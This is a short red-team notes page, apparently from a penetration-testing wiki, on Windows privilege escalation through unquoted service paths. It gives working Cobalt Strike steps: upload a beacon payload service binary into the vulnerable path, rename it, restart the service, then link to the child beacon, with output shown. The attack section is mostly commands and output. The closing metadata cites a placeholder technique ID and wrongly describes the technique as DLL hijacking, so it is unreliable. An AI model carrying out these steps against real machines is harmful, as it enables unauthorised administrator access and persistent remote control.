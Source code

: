 # Unquoted Service Paths
An unquoted service path is where the path to the [[Windows Services]] binary is not wrapped in quotes and contains spaces.

## Conditions to exploit
1. Vuln-Service has spaces in the path and is also not quoted
2. Check permissions to write into the paths based on the search order
	1.  `C:\Program.exe`
	2.  `C:\Program Files\Vuln.exe`
	3.  `C:\Program Files\Vuln Service\Service.exe`
3. Generate malicious service binary. We can do this in Cobalt Strike via **Attacks > Packages > Windows Executable (S)** and selecting the **Service Binary** output type.
```````beacon
cd C:\Program Files\Vuln Service
upload C:\Payloads\beacon-tcp-svc.exe
mv beacon-tcp-svc.exe Service.exe
run sc stop Vuln-Service
run sc start Vuln-Service
```````

4. Check beacon and connect (if TCP listener is used)
``````
run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING

connect localhost 4444
[+] established link to child beacon: 10.10.17.231
``````


## Tools
########
########


```meta
ttp: T1000
requirements: 
results: admin
description: Hijacking the search order hirarchy of a applications DLL.
```